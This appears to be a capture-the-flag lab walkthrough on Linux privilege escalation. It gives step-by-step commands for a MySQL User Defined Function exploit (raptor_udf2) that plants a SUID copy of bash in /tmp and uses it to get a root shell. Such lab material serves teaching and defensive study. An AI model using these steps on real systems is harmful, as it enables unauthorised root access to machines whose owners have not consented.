 ```
user@debian:~$
```

`No answer needed`

2. Run the "id" command. What is the result?

`uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)`

## Service Exploits

The MySQL service is running as root and the "root" user for the service does not have a password assigned. We can use a [popular exploit](https://www.exploit-db.com/exploits/1518) that takes advantage of User Defined Functions (UDFs) to run system commands as root via the MySQL service.

Change into the /home/user/tools/mysql-udf directory:

`cd /home/user/tools/mysql-udf`

Compile the raptor_udf2.c exploit code using the following commands:

```
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Connect to the MySQL service as the root user with a blank password:

`mysql -u root`

Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do_system" using our compiled exploit:

```
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

`select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');`

Exit out of the MySQL shell (type exit or \q and press Enter) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

`/tmp/rootbash -p`

Remember to remove the /tmp/rootbash executable and exit out of the root shell before continuing as you will create this file again later in the room!

```
rm /tmp/rootbash
exit
```

1. Read and follow along with the above.
